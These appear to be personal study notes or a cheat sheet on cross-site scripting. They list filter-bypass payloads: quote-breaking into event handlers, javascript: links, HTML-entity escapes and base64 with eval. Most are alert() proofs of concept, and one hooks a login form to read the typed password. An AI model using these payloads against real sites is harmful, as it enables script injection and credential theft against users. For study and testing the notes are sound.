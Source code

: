     <INPUT type="text" id="name" name="name" placeholder=
    'Full Name' class="form-control" autofocus="">

See how the placeholder contains single quotes? we can bypass filtering by closing the first quote, thus closing the field, setting the onFocus condition and then closing the second quote
Example: name field is `' onFocus='alert(1)` and address is `>asdf`


REMEMBER= that if the next page loads without code execution, as long as the input wasnt changed (eg you found a way to escape filtration) than there still may be a vulnerable element

bypassing regex

    var string = "Your registration of " + data["name"] + "<BR>" + data["address"] + "<BR>" + data["country"] + "<BR>was successful."

if we make name ```<script aaa=" and address ">window[alert](9);//``` - we escape the car string and execute our code

EXAMPLE of a more complex payload on a login page:

URL encode the below and set as a parameter in URL bar
```
" onmouseover="

document.forms[0].onsubmit = function demo () {
	var pass = document.forms[0].elements[1].value;

	alert(pass);
}
```

`<script>alert(document.ZG9tYWlu);</script>`

**SOMETIMES AN INPUT BOX IS HARDENED, IN THIS CASE TRY TO INSPECT ELEMENTS AND EDIT OPTIONS!!**

sometimes the first character needs to be escaped to html EG:

`&#34> <script>alert(document.domain);</script>`

When you cant "<" and ">", use events such as mouse over / onChange

`aaa" onmouseover="alert(document.domain); //` here we satisy what should be in input box, close with quote, specify another value and its event
successfully injected string as below:
`<input type="text" name="p1" size="50" value="aaa" onchange="alert(document.domain);">`



A function allowing creation of a link can be XSS attacked using the javascript schema, the link will execute code instead of loading site
javascript:alert(document.domain);


### Word filtering
when words are filtered out: Via the Stack Overflow question Base64 encoding and decoding in client-side Javascript we find that all modern browsers have a global function galled atob() to decode Base64 strings, read more on Mozilla Developer Network. To execute a string as JavaScript, use eval(). 

`"><script>eval(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='));</script>`
